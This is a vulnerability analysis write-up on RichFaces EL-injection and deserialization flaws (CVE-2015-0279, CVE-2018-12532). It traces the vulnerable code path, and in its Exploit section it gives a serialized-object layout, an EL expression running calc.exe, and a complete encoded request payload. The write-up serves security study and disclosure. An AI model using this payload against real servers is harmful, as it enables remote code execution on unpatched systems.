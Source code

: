 ## CVE-2015-0279

Author: lamnc2

Github: [kiven7299](https://github.com/kiven7299)





### Description

#### CVE-2015-0279

> **JBoss RichFacess before 4.5.4** allows remote attackers to inject expression language (EL) expressions and execute arbitrary Java code via the do parameter
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2015-0279)



#### CVE-2018-12532

> **JBoss RichFaces 4.5.3 through 4.5.17** allows unauthenticated remote attackers to inject an arbitrary expression language (EL) variable mapper and execute arbitrary Java code via a **MediaOutputResource's resource request**, aka RF-14309.
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2018-12532)



> Injection of arbitrary EL variable mapper allows to **bypass mitigation of CVE-2015-0279** and thereby remote code execution.
>
> [codewhitesec.blogspot.com](https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html)



#### Conclusion

RichFaces from 4.5.3 to 4.5.17 has a vulnerability in `MediaOutputResource` that allows injecting arbitrary EL variable mapper.



### Find the vulnerable entry point

As stated in CVEs' description, the vulnerability is attempted to be patched in Richfaces4.5.4, so let's make a comparison between the two versions: https://github.com/richfaces/richfaces/compare/4.5.3.Final...richfaces:4.5.4.Final (Or find the commit for patching EL expression: https://github.com/richfaces/richfaces/commit/4c5ddae4d6ddcea591fa949762c1c79ac11cac99)

Look for `MediaOutputResource`:

![image-20200403120539022](images/image-20200403120539022.png)

So the vulnerability is located in `richfaces-a4j:4.5.3:org.richfaces.resource.MediaOutputResource#encode()` method which calls `javax.el.MethodExpression#invoke()` to evaluate EL expression.





### Reach the vulnerable entry point

Refers to RichFaces Showcase for RichFaces 4.5.3.Final ([Github](https://github.com/kiven7299/Stuff/blob/master/RichFaces's%20resource%20handler.pdf))

> **RichFaces: Ajax enabled JSF 2.0 component library**
>
> **Online demo [http://showcase.richfaces.org](http://showcase.richfaces.org/)**
>
> RichFaces showcase is an application created to show **RichFaces components in action.** It contains a set of small use-cases implemented using RichFaces components.
>
> **Snapshot:**
>
> <img src="images/image-20200403170908356.png" alt="image-20200403170908356" style="zoom: 50%;" />



It implies that RichFaces Showcase application utilizes the *MediaOutputResource* dynamic resource builder. 

Inspects requests made by functions:

<img src="images/image-20200404170908347.png" alt="image-20200404170908347" style="zoom:50%;" />

<img src="images/image-20200404170926471.png" alt="image-20200404170926471" style="zoom:50%;" />

Make 2^nd^ request to locally-built web app ([Source code](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/vulnerable_app.rar)), see that it reaches the vulnerable entry point.

<img src="images/image-20200404174051025.png" alt="image-20200404174051025" style="zoom:50%;" />

<img src="images/image-20200406211010528.png" alt="image-20200406211010528" style="zoom:50%;" />

`contentProducer` is the EL to be evaluated which, as we can see, is set beforehand. Thus, we have to examine the application's workflow to know how `contentProducer` gains its value..

 

#### Examine the workflow

I make a standalone post on this subject: [RichFaces's resource handler](https://github.com/kiven7299/Stuff/blob/master/RichFaces's%20resource%20handler.pdf)

At the step of restoring a state of resource, in this case, `MediaOutputResource`:

```java
//org.richfaces.resource.ResourceUtils    
public static void restoreResourceState(FacesContext context, Object resource, Object state) {
        if (state == null) {
            // transient resource hasn't provided any data
            return;
        }

        if (resource instanceof StateHolderResource) {
          ...
        } else if (resource instanceof StateHolder) {
            StateHolder stateHolder = (StateHolder) resource;
            stateHolder.restoreState(context, state);
        }
    }
```

```java
//public class MediaOutputResource extends AbstractUserResource implements StateHolder, CacheableResource 
public void restoreState(FacesContext context, Object stateObject) {
        Object[] state = (Object[])((Object[])stateObject);
        this.setCacheable((Boolean)state[0]);
        this.setContentType((String)state[1]);
        this.userData = UIComponentBase.restoreAttachedState(context, state[2]);
        this.contentProducer = (MethodExpression)UIComponentBase.restoreAttachedState(context, state[3]);
        this.fileName = (String)state[4];
    }
```



Variable `state` gains it value by deserialization in `org.richfaces.resource.ResourceUtils#decodeObjectData()`: 

```java
public static Object decodeObjectData(String encodedData) {
        byte[] objectArray = decodeBytesData(encodedData);

        try {
            ObjectInputStream in = new LookAheadObjectInputStream(new ByteArrayInputStream(objectArray));
            return in.readObject();
        } catch (StreamCorruptedException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.STREAM_CORRUPTED_ERROR), e);
        } catch (IOException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DESERIALIZE_DATA_INPUT_ERROR), e);
        } catch (ClassNotFoundException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DATA_CLASS_NOT_FOUND_ERROR), e);
        }

        return null;
    }
```

![image-20200410002420187](images/image-20200410002420187.png)

- `state[3].orig`: EL expression to be evaluated

  

In next step, response (images, videos, tables, …) is made for users by calling, in this case, `MediaOutputResource.decode()` which is the vulnerable entry point.

```java
public void encode(FacesContext facesContext) throws IOException {
        OutputStream outStream = facesContext.getExternalContext().getResponseOutputStream();
        this.contentProducer.invoke(facesContext.getELContext(), new Object[]{outStream, this.userData});
    }
```

`contentProducer` is the EL expression to be evaluated.

![image-20200410004340262](images/image-20200410004340262.png)



#### Conclusion

- Make serialized object of  that:

  ```java
  // * is a must
  Object[5]: java.lang.Object
  	[0]*: Boolean - is cacheable
  	[1]: String - contentType of the response
  	[2]: StateHolderSaver
  		savedState: existed class (existed in application) - used as param to MethodExpression
      [3]*: StateHolderSaver
      	savedState: MethodExpression - EL expression to inject
  					
  ```

- `Deflate` encrypting. Use encrypting functions provided by RichFaces  in `ResourceUtils`

- Payload: `GET /rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=<serialized object>`





### Exploit

#### Craft payload

Makes an web application that gets an EL expression as input and return string representing serialized object. Source code here [Github](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/payload_generator.rar)

<img src="images/image-20200410165221092.png" alt="image-20200410165221092" style="zoom: 33%;" />

EL expression to execute OS command:

```java
#{request.getClass().getClassLoader().loadClass("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("calc.exe")}
```

Serialized object:

```java
eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```

Final payload:

```java
/rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```



#### PoC

Video demo: https://drive.google.com/open?id=1-5JAxk5jDNCmX0eWXFMAiZot62b-WZbf

